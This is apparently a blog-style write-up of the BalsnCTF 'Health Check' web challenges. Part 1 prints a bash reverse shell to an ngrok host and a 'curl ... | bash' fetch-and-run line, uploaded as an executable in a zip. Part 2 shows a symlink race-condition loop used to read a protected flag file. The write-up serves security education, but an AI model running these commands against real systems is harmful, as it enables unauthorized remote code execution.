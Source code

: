 ```yaml
---
layout: single
title: Health Check 1 & 2 - BalsnCTF
date: 2022-9-05
category: "Web"
desc: "Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our fastest Health Check API in the world!"
---
```


## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
A first look into web challenge we got a message `{"message":"Hello World"}` who looks like `json` format. Doing more enumeration i didnt find something worth so i try bruteforce some directories. <br>
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

While directory bruteforcing running the `/docs` directory appear with different `content length` <br>
![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

When visit the `/docs` directory we found 3 interestings HTTP routes and they are: `POST /new`,`GET /{dir_name}` and the last one `GET /` <br>
![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>

Lets enumerate these routes... Lets take the first one and open it we will find out a description which says:
<b>"This endpoint is only for admin. do NOT share this link with players!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"</b>
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

When i read `you must place an executable (or a script)` instantly i thing a bash script so i tried.<br>
![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)

I create a zip file with a random name(`tet.zip`) and i put my `run` executable inside with the curl command sending a `GET` requst to my burpcollaborator.(bellow run executable source code) <br>
```bash
#!/bin/bash

curl http://burpcollaborator.net/
```
After a few seconds i get the request from curl command and i knew it i can get a reverse shell just putting the reverse shell into run executable but... <br>
![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)

but when i tried i had a problem.. The problem it was the URL scheme must be "http","https" so i create 2 other files.(source code below)<br>
![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

<br>

The first file was the `shell.sh` where i upload it into a web server so i can reach it from the other file called `run` executable.
```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```

This source code below is the `run` executable where with the `curl` command we get the source code of `shell.sh` and pipeline it with `bash` command and successfully get the reverse shell .
```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png) <br>

We can retrive the flag in the `__pycache__` directory.
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)


```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)




